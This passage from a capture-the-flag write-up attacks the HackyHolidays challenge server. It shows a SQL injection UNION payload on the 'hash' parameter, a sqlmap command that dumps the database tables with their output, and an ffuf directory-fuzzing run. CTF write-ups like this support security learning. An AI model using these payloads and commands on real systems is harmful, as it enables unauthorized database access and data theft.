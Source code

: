```
    Payload: hash=-9115' UNION ALL SELECT NULL,NULL,CONCAT(0x7171767871,0x6652794752675962646d466752426364554549457a736577764752754f4c537877415a7363784e73,0x71627a7871)-- -
---
```

Nice, the parameter is vulnerable! We can exploit this further to dump all the database tables:

```
$ sqlmap -u 'https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=3dir42' --threads=5 --dump

Database: recon
Table: photo
[6 entries]
+----------+------+--------------------------------------+
| album_id | id   | photo                                |
+----------+------+--------------------------------------+
| 1        | 1    | 0a382c6177b04386e1a45ceeaa812e4e.jpg |
| 1        | 2    | 1254314b8292b8f790862d63fa5dce8f.jpg |
| 2        | 3    | 32febb19572b12435a6a390c08e8d3da.jpg |
| 3        | 4    | db507bdb186d33a719eb045603020cec.jpg |
| 3        | 5    | 9b881af8b32ff07f6daada95ff70dc3a.jpg |
| 3        | 6    | 13d74554c30e1069714a5a9edda8c94d.jpg |
+----------+------+--------------------------------------+

Database: recon
Table: album
[3 entries]
+------+--------+-----------+
| id   | hash   | name      |
+------+--------+-----------+
| 1    | 3dir42 | Xmas 2018 |
| 2    | 59grop | Xmas 2019 |
| 3    | jdh34k | Xmas 2020 |
+------+--------+-----------+
```

Hmm...the results don't have login info or anything particularly interesting. Still, we can make note of this vulnerability and keep looking for more issues.

## Fuzzing

Let's do a quick fuzzing check to see if there are some pages we can't view from clicking the UI:

```sh
$ ffuf -w raft-small-words.txt -u https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/FUZZ -fc 404 -mc all

uploads                 [Status: 403, Size: 145, Words: 3, Lines: 7]
api                     [Status: 200, Size: 2390, Words: 888, Lines: 54]
picture                 [Status: 200, Size: 21, Words: 3, Lines: 1]
```

